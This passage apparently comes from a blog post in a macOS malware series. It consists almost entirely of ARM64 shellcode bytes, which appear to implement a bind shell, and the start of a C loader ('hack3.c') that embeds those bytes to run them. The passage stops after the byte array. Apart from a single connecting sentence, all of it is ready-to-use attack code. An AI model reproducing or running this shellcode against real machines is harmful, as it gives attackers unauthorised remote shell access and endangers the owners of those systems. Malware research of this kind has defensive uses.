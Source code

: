![malware](/assets/images/176/2025-09-02_15-57.png){:class="img-responsive"}    

So, our shellcode bytes look like the following:    

```cpp
"\x23\x40\x80\xd2\x60\xfc\x48\xd3\x01\xfc\x41\xd3\xe2\x03\x1f\xaa"
"\x30\x0c\x80\xd2\xe1\xff\x1f\xd4\x13\xfc\x40\xd3\x02\x02\x80\xd2"
"\x04\x40\x80\xd2\x24\x82\xab\xf2\xe4\x7f\xbf\xa9\xe1\x63\x3f\x8b"
"\x10\x0d\x80\xd2\xe1\xff\x1f\xd4\xe0\x03\x13\xaa\xe1\x03\x1f\xaa"
"\x50\x0d\x80\xd2\xe1\xff\x1f\xd4\xe0\x03\x13\xaa\xe1\x03\x1f\xaa"
"\xe2\x03\x1f\xaa\xd0\x03\x80\xd2\xe1\xff\x1f\xd4\x14\xfc\x40\xd3"
"\x50\x0b\x80\xd2\x21\x40\x80\xd2\x21\xfc\x48\xd3\xe1\xff\x1f\xd4"
"\xe0\x03\x14\xaa\x21\x20\x80\xd2\x21\xfc\x48\xd3\xe1\xff\x1f\xd4"
"\xe0\x03\x14\xaa\x21\xfc\x41\xd3\xe1\xff\x1f\xd4\xe3\x45\x8c\xd2"
"\x23\xcd\xad\xf2\xe3\x45\xcf\xf2\x63\x0e\xed\xf2\xe3\x7f\xbf\xa9"
"\xe0\x63\x3f\x8b\xe0\x7f\xbf\xa9\xe1\x63\x3f\x8b\xe2\x03\x1f\xaa"
"\x70\x07\x80\xd2\xe1\xff\x1f\xd4";
```

Then I tried to use shellcode running code from one of my [previous](/macos/2025/08/02/malware-mac-7.html) posts (`hack3.c`):    

```cpp
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>

unsigned char code[] =
  "\x23\x40\x80\xd2\x60\xfc\x48\xd3\x01\xfc\x41\xd3\xe2\x03\x1f\xaa"
  "\x30\x0c\x80\xd2\xe1\xff\x1f\xd4\x13\xfc\x40\xd3\x02\x02\x80\xd2"
  "\x04\x40\x80\xd2\x24\x82\xab\xf2\xe4\x7f\xbf\xa9\xe1\x63\x3f\x8b"
  "\x10\x0d\x80\xd2\xe1\xff\x1f\xd4\xe0\x03\x13\xaa\xe1\x03\x1f\xaa"
  "\x50\x0d\x80\xd2\xe1\xff\x1f\xd4\xe0\x03\x13\xaa\xe1\x03\x1f\xaa"
  "\xe2\x03\x1f\xaa\xd0\x03\x80\xd2\xe1\xff\x1f\xd4\x14\xfc\x40\xd3"
  "\x50\x0b\x80\xd2\x21\x40\x80\xd2\x21\xfc\x48\xd3\xe1\xff\x1f\xd4"
  "\xe0\x03\x14\xaa\x21\x20\x80\xd2\x21\xfc\x48\xd3\xe1\xff\x1f\xd4"
  "\xe0\x03\x14\xaa\x21\xfc\x41\xd3\xe1\xff\x1f\xd4\xe3\x45\x8c\xd2"
  "\x23\xcd\xad\xf2\xe3\x45\xcf\xf2\x63\x0e\xed\xf2\xe3\x7f\xbf\xa9"
  "\xe0\x63\x3f\x8b\xe0\x7f\xbf\xa9\xe1\x63\x3f\x8b\xe2\x03\x1f\xaa"
  "\x70\x07\x80\xd2\xe1\xff\x1f\xd4";
```